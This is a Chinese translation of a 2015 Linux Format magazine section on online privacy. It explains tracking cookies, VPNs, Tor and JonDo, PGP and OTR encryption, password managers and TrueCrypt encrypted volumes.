# Tech Active 系列. 黑客手册 2015： 将你的 Linux 技能提升到下一个层次

## 获取英国最畅销的 Linux 杂志



直邮送达您家门口

在线订购 `www.myfavouritemagazines.co.uk` 或在您附近的超市、报刊亭或书店找到我们！

### 欢迎！


黑客！把孩子们锁起来，把银器藏好！黑客在主流媒体中名声不佳。鉴于报纸倾向于将该词与犯罪活动联系在一起，你会原谅人们认为所有黑客都是纯粹的卑劣邪恶，并且最近沉迷于挖掘名人不当裸照。

然而，黑客有着更崇高的根源。它通常被认为起源于 1960 年代的 MIT，是指程序员中的佼佼者。他们是 Fortran 等语言的大师炼金术士，以突破其局限性而闻名——他们取得的成就往往感觉像魔法。

黑客的本质是充分利用你的系统，将常规转变为非常规，并将工具用于无人想到的任务。就像最初的黑客一样，它关乎对知识的渴望，这就是为什么我们整理了 Linux Format 过去一年的最佳教程和最有用的功能，作为饥饿的黑客享用的盛宴。

你将学习如何在线匿名；如何保护你的手机或在上面运行 Linux 发行版；如何掌控我们的数据并设置个人云，甚至学习一些网络攻击技巧，而“黑暗面”可能会向你投掷。

我们认为今年的黑客手册是最好的。尽情享用吧！

chris

### 编辑部

主编 Neil Mohr  

书刊编辑 Chris Thornett  

管理美术编辑 Paul Blackford

### 管理与市场

计算品牌主编 Graham Barlow  

集团艺术总监 Steve Gotobed  

集团主编 Paul Newman  

技术内容与市场主管 Nick Merritt  

内容与市场总监 Niall Ferguson

### 发行与发行量

制作协调员 Roberta Lealand  

贸易市场经理 Stuart Brown  

由 Seymour Distribution Ltd 发行  

2 East Poultry Avenue, London EC1A 9PT  

电话 +44 (0)20 7429 4000  

海外发行由 Future Publishing Ltd 负责

### 许可

国际许可主管 Regina Erex  

regina.erex@futureplc.com 电话 +44 (0)1256 752359

主席 Peter Allen  

首席执行官 Zillah Byng-Maddick  

首席财务总监 Richard Harley  

电话 +44 (0)1225 442244 www.futureplc.com


没什么可隐藏的？那你没什么好担心的。我们真的那么天真吗？如果你尚未意识到政府机构对任何人和所有人进行的大规模监控，那么爱德华·斯诺登的爆料就是一记痛苦的警钟。让自己的活动不被窥探已成为我们所有人的关切。即使你没有做任何不该做的事，你也会希望阻止窥探的目光向你推送广告、查看你的私人文件等等。以下就是如何做到这些甚至更多。

- 保护你的隐私 ................................................ 8
- 设置安全的 VPS ................................................ 16
- Google 服务的开源替代品 .................. 20
- 保护 Android 安全 ....................................................... 30
- 加密你的硬盘 .............................................. 34


### 你是否厌倦了被在线追踪？我们向你展示如何掌控你的在线隐私。

你正被一些三字母机构和身家数十亿美元的企业监视着。他们能读到你的每一封邮件、你发布的每一条评论以及你分享的每一张照片。他们知道你看什么文章、看什么视频、喜欢在哪里购物。这些人知道你不喜欢被监控，但事实是他们并不在乎。你的在线活动正以国家安全的名义、打着定向广告的幌子被追踪。

> “这些人知道你不喜欢被监控，但事实是他们并不在乎。”

我们的个人自由正受到技术的攻击。你也不能仅仅因为“没什么可隐藏”就对监控视而不见；因为前 NSA 承包商爱德华·斯诺登的爆料揭开了秘密行动以及记录我们所有在线活动的无处不在的数据库。

这种奥威尔式的隐私丧失源于电子信息的无节制交换。并不存在一个无所不在的“老大哥”。相反，我们面对的是成百上千个“小兄弟”，它们在我们使用和穿越互联网时如影随形，无论你是货真价实的罪犯还是守法的公民。

隐私也不仅仅是隐藏事物；它还关乎控制我们生活中的哪些细节留给自己，哪些与世界分享。全球各地的法律正在被改写，以便更容易获取你的个人数据。

如果这些努力有助于保障我们的安全，我们对此表示赞赏；但当我们的私人数据落入那些通过出售数据而中饱私囊的企业手中时，我们感到厌恶。在本专题中，我们将介绍一些目前可用的、保护在线隐私的最佳工具。我们会向你展示你无意中泄露了哪些信息，以及这些信息是如何被滥用的。你还将学会如何控制自己的可见度，从而成为网络上一个拥有隐私的公民。我们向你展示的内容没有一点偷偷摸摸或违法之处。本专题的全部意义在于让你意识到失去隐私的危险，并保护自己免受非法监控、身份窃贼和政府（无论是否专制）的侵害。

保护您的信息和隐私是相辅相成的，而这一切都始于限制您向网络公司提供的信息。它们并不总是把您的最大利益放在心上，有些公司更以出售或交易个人信息而臭名昭著。

识别您身份的最基本方式是通过您的 IP 地址。通过您的 IP 地址，网站可以确定您的大致地理位置，例如您所在的城市或区域。这是网络广告利用的一种相当常见的技术，它们试图通过提及您的位置来吸引您的注意力。

IP 地址是动态的，因此不适合对用户进行长期跟踪。但是，如果将您的 IP 地址与其他跟踪信息（如 HTTP 来源和 Cookie）结合起来，您就很容易被监控。

HTTP 来源标头的工作是加载您点击的网站，并告知该网站您是从哪里来的。在加载网页上的内容时，它也会被发送。因此，如果网页包含广告，您的浏览器会告诉广告商您正在查看哪个页面。一些不择手段的营销人员会在电子邮件中嵌入不可见的图片，利用 HTTP 来源在您打开邮件时跟踪您。

请务必检查 Firefox 的隐私首选项，以阻止第三方 Cookie。



即使用户已注销，它也会在使用 Disqus 的网站上跟踪用户的信息，例如发帖历史、IP 地址和 Web 浏览器版本。他们还会将评论放在每个用户的公开个人资料页面上。

虽然一些在线服务提供选择退出的选项，但许多服务只允许您主动选择加入。您可以通过访问网络广告倡议组织的退出页面（`www.networkadvertising.org/choices`）来退出主要的跟踪网络。

这项在线服务将检查您系统中来自参与广告网络的跟踪 Cookie，并允许您退出这些网络。

此外，所有浏览器都提供清除 Cookie 的选项。您还可以使用浏览器的隐私浏览模式，确保关闭窗口时清除这些 Cookie。这也能防止网站得知您之前去过哪里。在使用公共电脑时，这种模式尤其方便。

但是，有一种比标准 Cookie 更具侵入性的讨厌的小 Cookie。本地共享对象（LSO），通常称为 Flash Cookie，尤其危险，因为它不与其他 Cookie 一起存储，而且旨在规避常用的隐私控制。

要限制 Flash 存储 LSO 的方式，请访问 Flash 的在线设置管理器（`http://bit.ly/1m33E9X`），然后取消选中“允许第三方 Flash 内容在您的计算机上存储数据”选项。注意：如果您选择这条限制使用 Cookie 的路线，那么它会影响您的网页浏览体验，但就隐私而言，这种取舍是非常值得的。

## 棘手的 Cookie

几乎每个网站都会使用 Cookie 来存储有关访问者及其如何使用网站的信息。这些 Cookie 存储在用户的计算机上，但用户对 Cookie 中存储的信息几乎没有控制权。

Cookie 有许多合法用途，例如在网站上存储设置和偏好，比如在线电子邮件服务使用 Cookie 来记住您的登录信息。

然而，这些 Cookie 还允许网站在您浏览其网站时跟踪您。这听起来可能相当无害，但像谷歌这样的大型网站并不仅仅局限于一个域名。您可能知道，谷歌控制着互联网上最大的广告网络。

当您从一个网站转到另一个网站时，广告系统除了展示广告外，还会跟踪您访问过的网站。然后，广告系统会利用这些数据来展示与您访问过的网站类似的广告。


根据 `www.digitaltrends.com` 的一项调查，谷歌并不是唯一这么做的公司，至少有 125 家不同的公司或公司产品被用来通过排名前 100 的网站跟踪您的在线活动。其中许多是简单的广告网络，但其他的则特别恶劣。以 Disqus 评论组件为例。

### 你知道吗？

美国国家安全局一直在收集大量有关互联网流量的元数据。

比如谁在和谁交谈，何时交谈，交谈了多久。元数据更容易存储和分析，而且对个人来说可能极具隐私性。

## 切换到 SSL

在互联网险境中浏览时，您应该采取的首要步骤之一就是切换到安全套接层（SSL）协议来加密网络流量。SSL 使用证书在访问者的 Web 浏览器与托管页面的 Web 服务器之间创建安全加密的链接。

加密连接可确保从浏览器传输到 Web 服务器的任何数据（如信用卡详细信息）在传输过程中保持私密。该证书由证书颁发机构（如 VeriSign 和 Thawte）提供。所有 SSL 加密网站都会在浏览器窗口中显示一个挂锁图标，您可以单击该图标以获取有关证书的更多详细信息。

然而，有一个微妙的危险需要警惕。SSL 证书有几种类型，一些钓鱼网站购买了合法证书，以诱使人们相信它们是可信的。

请留意域名验证证书。这些证书获取起来相当便宜，但并不能对网站背后的企业进行身份验证或有效性验证。点击挂锁图标时，除了加密信息外，不会显示任何其他信息。其他安全证书则会提供网站背后组织的相关信息。

每一种不安全的网络协议都有对应的安全协议。对于网页浏览，有 HTTPS；对于文件传输，有 SFTP 和 SCP；对于远程登录，有 SSH。

## 掩盖你的行踪

以下是如何在浏览网页时不留下任何痕迹的方法。

据爱德华·斯诺登（Edward Snowden）所说，监控网络活动比攻击系统更有效，因此美国国家安全局（NSA）推出了一些项目，用来拦截笔记本电脑和路由器等消费级硬件，并将其变成可远程开启的监控设备。

即使你采取预防措施，尽量减少在互联网上的足迹，并且只访问加密网站，你仍然会暴露。你仍然在向任何旁观者广播你的IP地址，包括你所访问的网站。

此外，由于并非所有网站都使用SSL，你最终会通过未加密的通道传输登录凭据和其他详细信息。这些信息很容易被 `Wireshark` 等数据包分析工具截获（参见第102页），尤其是在公共Wi-Fi热点等非安全网络上。

有许多解决方案可以帮助你掩盖行踪、伪装数字足迹、绕过审查并让你在上网时保持隐形。这一点尤其有利，因为一些网站和服务会阻止来自特定国家/地区的访客访问。

最常见的是虚拟专用网络（VPN）。其主要目的是在公共网络上扩展专用网络，让远程工作者能够连接并使用工作场所网络上的服务。同样的功能也使其成为创建到互联网的安全连接、并确保你发送和接收的所有数据都经过加密而不被窥探的理想工具。

VPN服务有数十种，互联网审查维基 `http://en.cship.org/wiki/VPN` 上有一份很长的列表。

选择VPN时，请确保它不依赖于应用层。例如，有些VPN只在网页浏览器内运行。它们的缺点是只能保护浏览器中的内容。如果你在Firefox之外再运行另一个浏览器，或一个单独的电子邮件程序，这些其他程序的数据将得不到保护。



JonDo的界面包含一个Anonym-O-Meter（匿名度计量器），用于衡量当前服务提供的匿名程度。

许多VPN服务会保留日志，并表示愿意与执法部门合作。

一些VPN还可能会限制某些服务，如BitTorrent等点对点文件共享服务。此外，许多VPN服务会保留日志，并表示在拿到相关法律文件后会与执法部门合作。TorrentFreak.com上有一篇很棒的文章，介绍了哪些VPN服务认真对待匿名性（`http://bit.ly/1dvMqqy`）。

当你寻找VPN时，要寻找支持OpenVPN并使用SSL/TLS进行密钥交换的服务。注重隐私的用户还会希望选择在其本国以外运营的服务。拥有多个位置服务器的服务总是更好的选择。

### 拥抱洋葱

另一种绕过审查并保持匿名的方法是使用代理服务器工具。其中最著名的是Tor网络。Tor是“The Onion Router”（洋葱路由器）的缩写，是一款创建网络以让人们匿名浏览网页的软件。

它在互联网上创建了一个由中继节点组成的网络。当你使用Tor访问网站时，进出你计算机的数据会在这些节点之间被反复转发，最后到达网站，从而向网站隐藏你的来源。

你可以使用Tor访问那些根据地理位置阻止访客的网站。使用Tor最简单的方式是通过Tor浏览器套件连接到Tor网络。（参见“设置Tor浏览器套件”，第11页。）

Tor的一个缺点是网站加载速度较慢，因为网络数据要经过中间如此多的中继节点。此外，一些ISP（尤其是中国的ISP）会主动搜索并封锁Tor中继，导致一些用户难以连接。还要注意，Tor只加密从你的计算机到出口节点的流量，这可以防止你的ISP监视你。但由于出口节点的流量未加密，任何运行出口节点的人都能看到你的互联网流量。有未经证实的报道称，许多出口节点由政府机构运营。

要消除Tor出口节点的漏洞，一种方法是仅在使用Tor网络时使用安全协议（HTTPS、SSH等）。你还可以使用名为JonDo的Java匿名代理，它通过互连的代理服务器来隐藏你的IP地址。JonDo与Tor类似，然而

### 隐私插件

- **BetterPrivacy插件**：提示你在每次关闭浏览器时删除所有本地共享对象（LSO）。
- **HTTPS Everywhere插件**：强制网页浏览器对所有支持HTTPS的网站使用HTTPS。
- **Web of Trust插件**：在搜索结果中识别危险网站。
- **DoNotTrackMe插件**：阻止第三方、广告公司和搜索引擎跟踪你访问的网页。
- **Disconnect插件**：阻止超过2,000种常见跟踪器的跟踪。
- **Privazy Lockdown插件**：当你访问该插件支持的网站时，它会建议你完成一些任务以确保隐私受到保护。当你点击某个任务时，Privazy会自动加载相关设置页面，并附上如何更改该特定设置的详细说明。

## 设置 Tor Browser Bundle






### 1 下载并启动

该 bundle 包含连接 Tor 网络所需的一切，包括 Tor Browser，即 Firefox 的定制版本。解压后，切换到 CLI 中的目录以运行 `./start-tor-browser` 脚本。

### 2 匿名浏览

此脚本会启动 Vidalia 控制面板，它将连接至 Tor 网络。连接后，Tor Browser 将启动并指向 `http://check.torproject.org`，该页面会确认你正在匿名浏览。

### 3 查看网络

在 Vidalia 中点击“View the Network”，即可打开一张世界地图，显示你的路由和活跃中继。完成后，关闭任意窗口会自动清空浏览器的缓存并断开连接。

一个主要区别是它只使用经过认证的合作伙伴作为节点。此外，你还可以选择希望路由流量经过的代理节点。你可以查看其代理的位置并据此选择以提高安全性。JonDo 对免费用户限制连接速度，但你可以订阅其高级服务，其速度与 VPN 服务一样快。该项目还提供了在保持匿名的同时为服务付费的详细说明。

JonDoBrowser 预先配置为与 JonDo 代理配合使用。此外，与 Tor 不同的是，你可以使用 JonDo 应用关闭匿名性，同时仍继续使用 JonDoBrowser。你也可以在不同浏览器或不同的网络应用（如即时通讯或电子邮件客户端）中使用 JonDo 和 Tor。只需将应用程序配置为将其所有流量通过这些应用路由即可。要通过它们路由流量，请进入应用的连接设置页面并指定以下手动代理设置。对于 JonDo，选择 `SOCKSv5` 代理，并使用 `127.0.0.1` 作为主机，`4001` 作为端口。要将流量通过 Tor 网络传递，如果你正在运行 bundle，请使用 `9150` 作为端口。还请记住，如果你是 JonDo 的免费用户，你只能连接到用于网页浏览的端口，即 HTTP 的 `80` 和 HTTPS 的 `443`。对于其他应用，你必须订阅其高级服务。尽管很难比较 JonDo 和 Tor，但许多人认为前者是更安全的选择。Tor 更容易受到内部攻击，即节点运营商本身攻击网络。这种可能性

### 我了解 JonDo


要使用该服务，请下载基于 Java 的 JonDo 客户端，解压其内容并以 root 身份运行其安装脚本。脚本会将客户端安装在 `/usr/local` 下。完成后，你可以通过在命令行输入 `jondo` 来启动它。首次启动时，安装向导会引导你完成简短的连接过程。完成后，应用将连接到代理服务器。你可以从下拉列表中选择要使用的代理网络。每个网络的地理位置都以其国家旗帜标记。除了 JonDo 工具外，该项目还提供了一个适用于 Firefox 的安全配置，称为 JonDoFox。或者，你可以下载 JonDo 自家的基于 Firefox 的浏览器，称为 JonDoBrowser。你可以从项目网站下载并安装浏览器的 Deb 包，或将其仓库添加到基于 Debian 的发行版中。该



避免被追踪，可通过伪造网卡的 MAC 地址，例如 `ifconfig eth0 hw ether 0A:A0:04:DA:AA:11`

### 安全附加组件

除了使用代理服务外，为你的网页浏览器配备一堆安全和隐私增强插件也是个好主意。使用 AdBlock Plus，你可以对特定广告商进行黑名单和白名单设置。另一个有用的补充是 NoScript Security Suite，它会阻止 JavaScript、Java、Flash、Silverlight 和其他可执行内容运行。此附加组件可防止跨站脚本攻击、跨区域 DNS rebinding、路由器入侵和点击劫持。

## 保持低调

一份关于安全发送电子邮件、消息和聊天的指南。

### 你知道吗？

根据斯诺登文件，GCHQ 的 EdgeHill 项目（以英国内战中的第一次战役命名）希望到 2015 年破解 15 家未具名主要互联网公司和 300 个 VPN 使用的程序。

当你与他人进行对话时，你会暴露大量关于你自己、你正在交谈的人以及对话性质的信息。欺骗窃听者的唯一方法是对所有通信进行加密。这样即使他们能够拦截，也无法弄清其内容。

PGP（即 Pretty Good Privacy）是加密数据和通信最流行的机制。PGP 用于加密的方法之一称为公钥密码学。与依赖单一密码不同，该方法采用公钥和私钥的组合来加密和解密数据。

本质上，发送者使用收件人的公钥来加密消息。公钥顾名思义应向所有人公开。当收件人收到消息时，他们使用安全存储的私钥来解密消息。此外，发送者还可以用其私钥对消息进行签名。这有助于验证发送消息的人的身份。收件人可以用发送者的公钥验证签名。

自由可用的 GNU Privacy Guard，通称 GPG，是 PGP 加密软件套件的 GPL 许可替代品。你会在几乎所有 Linux 发行版中预装找到它。

许多桌面 Linux 发行版都附带 Thunderbird 邮件客户端。Thunderbird 的 Enigmail 扩展将 GPG 的优势带入邮件客户端，你可以在应用程序内部下载该插件。此插件会自动启动设置向导来配置扩展程序，这将调整你的邮件设置，例如你将无法撰写 HTML 消息。注意：你也可以跳过向导并手动配置 Enigmail。

安装后，该扩展会在 Thunderbird 的菜单中添加一个新的 OpenPGP 条目。并非所有联系人都拥有公钥，因此你不应默认启用加密。Enigmail 可以从预配置的密钥服务器列表中获取联系人的公钥，并为你拥有的公钥的联系人创建按收件人规则。

## 加密你的电子邮件

默认情况下，Enigmail 会创建一个有效期为五年的 2048 位密钥。除了密钥之外，你还可以使用该扩展生成吊销证书以使密钥失效，以防你的私钥被泄露。

创建密钥后，你应该将其导出以便安全保存。前往 OpenPGP 菜单并选择密钥管理。右键单击要保存的密钥并选择导出密钥到文件选项。在弹出窗口中选择导出密钥选项以保存你的私钥和公钥。

你永远不应将此文件发送给任何人。事实上，你应该将此文件保存在加密存储区域中（参见创建和使用 TrueCrypt 卷，第 15 页）。此文件将帮助你在另一台安装上导入密钥或在丢失密钥时恢复。

要使用密钥加密消息，请撰写新消息并在撰写窗口内调出 OpenPGP 菜单。它将具有签名消息和加密消息选项。明智的做法是同时选择它们，然后继续像往常一样撰写你的消息。当你单击发送按钮时，系统会提示你输入密码短语。输入后，你的电子邮件将变成无法理解的加密文本。

除了消息正文之外，你还可以使用 Enigmail 加密任何附件。只需像往常一样附加文件，Enigmail 就会处理其余部分。

然而，如果你使用网页邮件服务，例如 Gmail 或 Yahoo Mail，你可以使用 Firefox 和 Chrome 浏览器的 Mailvelope 插件发送加密消息（参见加密网页邮件，第 13 页）。该插件使用 OpenPGP JavaScript 库，将 OpenPGP 的功能带入网络浏览器。

仅加密电子邮件并不能保护它们免受有决心的侵入方侵害。执法机构和其他有动机的个人仍可以强迫你交出密钥。作为进一步的预防措施，你可以将加密的电子邮件通过 Tor 或 JonDo 代理网络路由。TorBirdy 扩展将配置 Thunderbird 通过这些代理网络进行连接。

> “为了防止中间人攻击，ZRTP 使用短认证字符串（SAS）。”

Perzo.com 是一项以隐私为中心的在线通信服务。除了加密之外，它还允许你发送在指定时间后自动销毁的消息。


同样，你也可以加密实时通信，例如即时消息。两个最受欢迎的开源 IM 客户端 Kopete 和 Pidgin 可以通过插件加密消息。例如，Off-The-Record（OTR）协议可实现 IM 对话的端到端加密。它通过 OTR 插件实现，你可以在大多数桌面发行版的仓库中找到该插件。不过，所有参与方都必须拥有该插件才能交换加密消息。

安装并启用插件后，你必须为每个配置的账户生成一个私钥。从那时起，每当你使用该账户与另一联系人连接时，如果你的联系人也正确设置了 OTR 插件，插件将自动建立私人对话。

## 使用 Mailvelope 加密网页邮件






### 1 安装 Mailvelope

你可以从 Play 商店为 Chrome 浏览器安装 Mailvelope 工具，而 Firefox 的附加组件目前仍在开发中，只能从 GitHub 获取。安装后，从 Firefox 的附加组件栏调出该工具，然后选择“选项”。从左侧导航栏中选择“生成密钥”选项，输入详细信息，为你的电子邮件地址生成密钥。

### 2 交换密钥

在交换加密邮件之前，你的收件人必须拥有你的公钥。要将公钥发送给他们，请前往“显示密钥”>“导出”>“显示公钥”。复制并粘贴密钥块，然后通过电子邮件发送给你所有的朋友。同样，你也需要他们的公钥。收到密钥后，前往“导入密钥”，将密钥粘贴到框中，然后点击“提交”将其添加到你的密钥环中。

### 3 加密消息

现在撰写一条消息，然后点击窗口中的浮动图标。输入消息并点击锁形图标。添加收件人，点击“确定”，文本将被加密。接着点击“传输”按钮，将文本粘贴到消息正文中。收到消息后，附加组件会自动识别。你的收件人需要输入密码才能阅读你的消息。

使用 IM 时有一点需要谨记：你的对话可能是加密的，但你无法自动判断与你交谈的是你的联系人还是冒名顶替者。该插件可以通过三种机制中的任何一种来帮助你确认联系人的身份。你可以交换预先约定好的密语或口令，也可以提出一个只有你的联系人知道答案的问题，或者使用另一种通信方式手动验证密钥的指纹。

OTR 插件专为加密一对一聊天会话而设计。如果要加密多用户聊天，请访问 http://cryptocat.org。CryptoCat 是一项在线服务，可让你建立安全的对话。它使用 AES-256 和 4096 位非对称密钥在浏览器内部加密消息。



在传输机密信息之前，请使用聊天客户端中的内置工具来确认对方的身份。

## 防窥探聊天

要使用该服务，你首先必须将其作为附加组件安装到 Firefox 或 Chrome 中。发起对话时，你首先需要为要创建的聊天室选择一个名称，同时还要选择一个屏幕名称。一旦获取这些信息，CryptoCat 就会生成加密密钥、创建你的聊天室并让你登录。想加入你的人也必须安装浏览器附加组件，然后只需输入你的聊天室名称即可加入。

由于没有密码保护，而且你们都使用化名而非真实姓名，CryptoCat 提供问答机制来验证用户身份。此外，你还可以在界面内更改自己的状态，并切换桌面通知和音频通知。

CryptoCat 旨在促进加密的多用户群组对话。但你也可以与某个成员私下聊天。还要记住：虽然通信是加密的，但连接并非匿名，你的身份仍然可以被追踪。为防止这种情况，CryptoCat 建议你通过 Tor 代理网络使用该服务。


与文本一样，你也可以通过 IP 语音（VoIP）与其他用户进行安全的语音和视频通话。为了确保通话双方的隐私，PGP 的创建者菲尔·齐默尔曼（Phil Zimmerman）创建了 `ZRTP` 协议。

该协议负责在连接的对等方之间协商密钥，并在它们之间建立真正执行加密的 `SRTP` 连接。`GNU/ZRTP` 库实现了其中大部分功能。

为了防止中间人攻击，`ZRTP` 使用一种称为短认证字符串（Short Authentication String，`SAS`）的机制。`ZRTP` 将 `SAS` 的长度定义为四个字符。使用 `ZRTP` 拨打电话时，一方读取 `SAS` 的前两个字符，另一方读取后两个字符。两个值应当匹配。最佳做法是在通话开始时比较这些值，然后在合理的时间间隔后再次比较。

`GNU/ZRTP` 库的 Java 实现已集成于开源的 `Jitsi` VoIP 客户端中[参见 Roundup，第 22 页 XF18]。它支持 `SIP` 和 `XMPP` 等协议，并且可以流式传输桌面和建立音频电话会议。

## 巩固你的堡垒

加密你的硬件并锁定你的工作站。

## 你知道吗？

美国国家安全局（`NSA`）投入了大量资源来渗透计算机，这项工作由其定制访问行动组（`TAO`）负责。据信 `TAO` 拥有大量漏洞利用程序，可以攻击任何 PC，无论你运行的是 `Windows`、`Mac OS` 还是 `Linux`。

在我们所有的建议之后，令人不安的是，如果 `NSA` 想进入你的电脑，它就会得逞。也就是说，如果你相信前 `NSA` 承包商和吹哨人爱德华·斯诺登泄露的每一份文件细节。不幸的是，让电脑对攻击者免疫的过程比让它容易破解要复杂得多，而且强密码并不总是答案。攻击者可能只需通过回答你随意选择的秘密问题就能重置它。

生成复杂密码对隐私至关重要。然而，密码的管理方式同样重要。将密码写在纸上本质上很危险，并不是每个人都能像夏洛克那样建立记忆宫殿来存储复杂密码。这就是为什么你需要像 `KeePassX` 这样的密码管理工具。

`KeePassX` 是开源的密码短语生成和管理软件。该工具可以在几秒钟内生成极其复杂、高度特定的密码短语。

> “确保文件完整性的唯一方法是加密它们所在的介质。”

此外，`KeePassX` 还可以用于管理加密的密码短语，这些密码短语稍后可以通过主密码短语访问。此主密码消除了记住多个密码短语的需求。由于主密码可以访问所有其他密码短语，因此它必须免受字典攻击、密码嗅探器以及键盘记录器等其他威胁的影响。建议使用大小写字母、数字和其他特殊字符的组合。

我们已经研究过在数据离开你的电脑之前加密对话和附件的工具。然而，如果你的电脑被盗或被 stealthily 入侵，这并不能帮到你。确保文件完整性的唯一方法是加密它们所在的介质。许多 `Linux` 发行版，包括 `Fedora` 和 `Ubuntu` 在安装发行版之前都提供加密磁盘的选项。这被称为全盘加密，根据电子前沿基金会（`EFF`）的说法，即使对于新手用户来说，这也是确保数据隐私的最佳方法之一。

然后就是你需要在可移动存储设备上携带敏感文件的时候，比如 USB 驱动器。在这种情况下，加密硬盘是没有用的。对于这种情况，你需要工具来创建便携式加密卷。

## 加密驱动器

加密可移动驱动器的选项有很多，例如 `Gnome` 的磁盘实用程序。然而，尽管最近存在争议，最受欢迎的选项仍然是 `TrueCrypt` 工具。

`TrueCrypt` 是一款开源跨平台工具，可创建即时加密卷。这意味着数据在保存前会自动加密，并在加载后立即解密。`TrueCrypt` 存在争议，一方面是因为其 70,000 行代码从未经过全面审查，另一方面是因为开发团队以一种奇怪的突然方式决定终止对 `TrueCrypt` 的支持。众筹的 `Open Crypto Audit Project`（`https://opencryptoaudit.org/`）正在纠正审查问题并计划继续开发。该审计项目还托管了 v7.1 的已验证副本，我们建议使用它，因为它是最后一个稳定版本。

`TrueCrypt` 不是创建加密文件夹，而是在一个文件中创建一个虚拟磁盘并对其进行加密。每当你使用 `TrueCrypt` 解密磁盘时，它就会在你的文件管理器中显示为硬盘。而在加密状态下，它在你的文件系统中显示为普通文件。你甚至可以将其复制到

## 提供隐私的云服务

如果你喜欢流行云共享网站提供的服务，但又担心其隐私政策，这里有一些提供类似便利同时尊重你隐私的选项。

首先是我们最喜欢的：`OwnCloud`。这是一款开源的类似 Dropbox 的文件共享工具，你可以将其安装在你场所内的自己的硬件上。你掌控自己的数据，因此可以像使用 Dropbox 一样随时随地访问。如果你更喜欢使用命令行，还有 `SparkleShare`，它将通过 SSH 通道传输数据。

你也可以使用支持 `GPG` 的 `Git-annex` 助手同步文件夹。如果你有一台 Raspberry Pi，请关注正在开发中的 `arKOS` 项目，它将让你托管自己的网站、电子邮件、社交网络和云共享账户以及其他服务。

如果你没有时间和技能自行搭建存储服务，你可以使用采取措施确保你隐私的第三方服务。如果你想与某人共享一份私人文档，请使用 `http://secureshare.re` 服务。它会在上传到其 Web 服务器之前在你的电脑上加密文档，然后生成一个受密码保护的自毁 URL，你可以将该 URL 传递给收件人。在对方那里，文件将被下载并在本地解密。

同样，如果你想共享图像、音频和视频，你可以使用 `http://mediacru.sh` 服务，它提供免费存储并且也尊重你的隐私。它使用 HTTPS 协议，不存储任何用户数据，不显示任何广告，并尊重你浏览器的 DoNotTrack 设置。


`img.bi` 服务是一个图像托管网站，它在上传文件之前对其进行加密，并为你提供稍后删除的链接。






## 创建和使用 TrueCrypt 卷

### 1 创建卷

启动应用程序并按下创建卷按钮。这将启动卷创建向导，引导你完成必要的步骤。第一步让你选择希望创建 `TrueCrypt` 卷的位置。第一个选项是新用户推荐的选项。

### 2 卷选项

同样，对接下来的大部分步骤选择默认选项。你将被询问是否要创建普通卷或隐藏卷。你还需要指定将作为加密容器使用的文件名及其大小，以及卷的加密算法。

### 3 挂载卷

回到主屏幕，按下选择文件按钮并选择你创建的加密卷。然后按下挂载按钮并输入卷的密码。加密卷随后将被挂载并列在你的文件管理器中。点击卸载按钮即可卸载它。

将 USB 闪存盘带到另一台计算机并使用另一份 `TrueCrypt` 读取其内容。

对于真正便携的加密解决方案，你可以在可移动驱动器内创建加密虚拟磁盘，并同时打包 `TrueCrypt` Linux shell 脚本以及 Windows 可执行文件。这允许你在任何地方解密 `TrueCrypt` 卷。加密文件系统的一个主要缺点是它们无法隐藏你正在隐藏某物的事实。决心的入侵者可以强迫你交出加密密钥，或者你可能在法律上被要求交出。`TrueCrypt` 有一种解决方法：使用隐藏卷功能，你可以在另一个卷内部创建加密卷。你像操作标准 `TrueCrypt` 卷一样与外部卷交互。然而，内部卷是隐藏的，其占用的空间显示为可用磁盘空间。

两个卷具有不同的密码，因此即使你被迫透露外部容器的密码，内部容器内的内容仍然保持加密状态。而且由于没有人知道内部容器的存在，它提供了撒谎的空间。

